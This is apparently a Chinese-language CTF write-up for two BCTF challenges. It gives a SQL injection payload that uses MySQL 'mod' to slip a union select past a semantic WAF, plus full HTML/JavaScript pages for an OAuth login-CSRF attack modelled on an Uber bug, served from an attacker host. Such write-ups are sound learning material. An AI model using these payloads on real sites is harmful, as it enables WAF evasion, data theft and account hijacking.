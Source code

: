 **Alice and Bob**

基于语义的waf,

引入能够打乱语义判断的就可以触发到了

mysql 有 mod 的比较符和函数

想着通过引入两个去打乱语义

```
payload:  'mod mod(1,1) union select flag from flag#
```

[![](./img/85920/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01176a2d1c614a77ef.png)

**Diary**

跟uber的案例差不多：

题目一看就是xss的，认证过程是Oauth，直接那这个网址上面的payload就可以复现，一共三个文件



```
&gt; http://xss.xxx.cn/attack/albert2.js
&gt; http://xss.xxx.cn/attack/index.html
&gt; http://xss.xxx.cn/attack/login-target.html
&lt;html&gt;
&lt;head&gt;
&lt;!-- CSP策略会阻止访问 login.uber.com --&gt;
&lt;meta http-equiv="Content-Security-Policy" content="img-src http://diary.bctf.xctf.org.cn"&gt;
&lt;!-- 退出登录 partners.uber.com，在跳转到login.iber.com的时候触发onerror --&gt;
&lt;/head&gt;
&lt;body&gt;
&lt;img src="http://diary.bctf.xctf.org.cn/accounts/logout/" onerror="login();"&gt;
&lt;script&gt;
    //初始化登录
    var login = function() {
        var loginImg = document.createElement('img');
        loginImg.src = "http://diary.bctf.xctf.org.cn/accounts/login/";
        loginImg.onerror = redir;
    }
    //用我们的code登录
    var redir = function() {
    // 为了方便测试，code放在url hash中，实际需要动态的获取
        var code = "ojtjJdAepHTwIDlGtLtKxTgZudnCdL";
        var loginImg2 = document.createElement('img');
        loginImg2.src = 'http://diary.bctf.xctf.org.cn/o/receive_authcode?state=preauth&amp;code='+code;
        loginImg2.onerror = function() {
       window.location = 'http://diary.bctf.xctf.org.cn/diary/';
        }
    }
&lt;/script&gt;
&lt;/body&gt;
&lt;/html&gt;
&lt;html&gt;
&lt;head&gt;
&lt;meta http-equiv="Content-Security-Policy" content="img-src http://diary.bctf.xctf.org.cn"&gt;
&lt;/head&gt;
&lt;body&gt;
&lt;img src="http://diary.bctf.xctf.org.cn/accounts/logout/" onerror="redir();"&gt;
&lt;script src="http://diary.bctf.xctf.org.cn/static/js/jquery.min.js"&gt;&lt;/script&gt;
&lt;script&gt;
    //使用用户login.uber.com的session重新登录
    var redir = function() {
        window.location = 'http://diary.bctf.xctf.org.cn/accounts/login/';
    };
&lt;/script&gt;
```